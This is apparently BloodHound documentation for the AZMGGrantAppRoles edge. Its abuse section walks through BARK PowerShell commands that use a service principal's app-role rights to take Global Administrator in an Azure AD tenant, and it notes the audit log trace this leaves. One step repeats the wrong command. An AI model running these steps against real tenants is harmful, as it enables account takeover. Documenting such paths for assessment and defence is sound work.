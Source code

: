 ---
title: AZMGGrantAppRoles
description: "This edge is created during post-processing."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


It is created against AzureAD tenant objects when a Service Principal has one of the following MS Graph app role assignments:

* AppRoleAssignment.ReadWrite.All
* RoleManagement.ReadWrite.Directory

## Abuse Info

With the ability to grant arbitrary app roles, you can grant the RoleManagement.ReadWrite.Directory app role to a Service Principal you already control, and then promote it or another principal to Global Administrator.

These functions require you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to grant app roles. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Use BARK’s Get-AllAzureADServicePrincipals to collect all Service Principal objects in the tenant:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```
Next, find the MS Graph Service Principal’s ID. You can do this by piping $SPs to Where-Object, finding objects where the appId value matches the universal ID for the MS Graph Service Principal, which is 00000003-0000-0000-c000-000000000000:

```bash
$SPs | ?{$_.appId -Like "00000003-0000-0000-c000-000000000000"} | Select id
```

The output will be the object ID of the MS Graph Service Principal. Take that ID and use it as the “ResourceID” argument for BARK’s New-AppRoleAssignment function. The AppRoleID of ‘9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8’ is the universal ID for RoleManagement.ReadWrite.Directory. The SPObjectId is the object ID of the Service Principal you want to grant this app role to:

```bash
New-AppRoleAssignment `
    -SPObjectId "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -AppRoleID "9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8" `
    -ResourceID "9858020a-4c00-4399-9ae4-e7897a8333fa" `
    -Token $MGToken
```
If successful, the output of this command will show you the App Role assignment ID. Now that your Service Principal has the RoleManagement.ReadWrite.Directory MS Graph app role, you can promote the Service Principal to Global Administrator using BARK’s New-AzureADRoleAssignment.

```bash
New-AzureADRoleAssignment `
    -PrincipalID "6b6f9289-fe92-4930-a331-9575e0a4c1d8" `
    -RoleDefinitionId "62e90394-69f5-4237-9190-012177145e10" `
    -Token $MGToken
```
If successful, the output will include the principal ID, the role ID, and a unique ID for the role assignment.

## Opsec Considerations

When you assign an app role to a Service Principal, the Azure Audit logs will create an event called “Add app role assignment to service principal”. This event describes who made the change, what the target service principal was, and what app role assignment was granted.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
